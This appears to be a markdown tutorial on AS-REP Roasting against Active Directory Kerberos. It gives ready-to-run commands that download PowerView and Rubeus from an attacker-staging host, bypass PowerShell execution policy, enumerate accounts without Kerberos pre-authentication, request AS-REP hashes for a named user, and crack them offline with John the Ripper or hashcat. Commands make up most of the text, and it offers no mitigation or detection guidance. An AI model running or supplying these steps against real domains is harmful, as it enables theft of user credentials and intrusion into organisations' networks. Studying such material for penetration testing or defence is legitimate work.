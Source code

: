AS-REP Roasting is an attack against **Kerberos authentication** in Active Directory (AD) that targets accounts with the property **“Do not require pre-authentication”**.  
It allows an attacker to request a **TGT (Ticket Granting Ticket)** for a user and obtain it **without knowing the user’s password**, then perform **offline password cracking**.


---

## 1) Load PowerView (in‑memory) and find candidates

Download PowerView to your attacker host and import it into memory (avoids leaving the file on disk if you `IEX` it):

```powershell
# Download PowerView to disk (optional) and import from disk
Invoke-WebRequest -Uri "http://10.0.5.101:8080/PowerView.ps1" -OutFile .\PowerView.ps1

# Start an elevated PowerShell session if needed
powershell -ExecutionPolicy Bypass

# Dot-source (import) PowerView into the current session
. .\PowerView.ps1
```

List accounts with **Do not require preauthentication** (AS‑REP roast candidates). The DONT_REQ_PREAUTH bit = `0x00400000`:

```powershell
Get-DomainUser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*" }
```

---

## 2) Request AS‑REP for a user and save the blob (Rubeus)

Download Rubeus and run the AS‑REP roast command for a chosen username (`johnny` for example).

Recommended: ask Rubeus to produce output in a format compatible with John or hashcat if your Rubeus build supports it.

```powershell
# Download Rubeus.exe to the host
Invoke-WebRequest -Uri "http://10.0.5.101:8080/Rubeus.exe" -OutFile .\Rubeus.exe

# Ask KDC for the AS-REP and save in John-compatible format (if available)
.\Rubeus.exe asreproast /user:johnny /format:john /outfile:johnhash.txt

# If /format:john isn't supported, use this and inspect/convert the output:
.\Rubeus.exe asreproast /user:johnny /outfile:johnhash.txt
```

**Output example (John/hashcat style):**

```
$krb5asrep$23$johnny@DOMAIN:...BASE64DATA...
```

That string is what you crack offline.

---

## 3) Crack the AS‑REP offline (John or hashcat)

### Using John the Ripper (jumbo)

```bash
# John (jumbo) - example on Windows/Linux
john --wordlist=.\10k-worst-pass.txt --format=krb5asrep .\johnhash.txt

# Show cracked results
john --show .\johnhash.txt
```

### Using hashcat

Hashcat mode for AS‑REP is **18200** (Kerberos 5 AS-REP etype 23 aka RC4-HMAC). Example:

```bash
# If you have a hash in 'johnhash.txt' compatible with hashcat:
hashcat -m 18200 -a 0 johnhash.txt /path/to/wordlist.txt
# After cracking:
hashcat --show -m 18200 johnhash.txt
```

**Notes:**

- Use `--format=krb5asrep` with John or `-m 18200` with hashcat.
    
- Try multiple wordlists (rockyou, 10k worst passwords, targeted lists).
    
- If Rubeus provided multiple enctype blobs (AES), hash mode changes (e.g. hashcat has other modes for AES). Check Rubeus output (it usually indicates enctype).

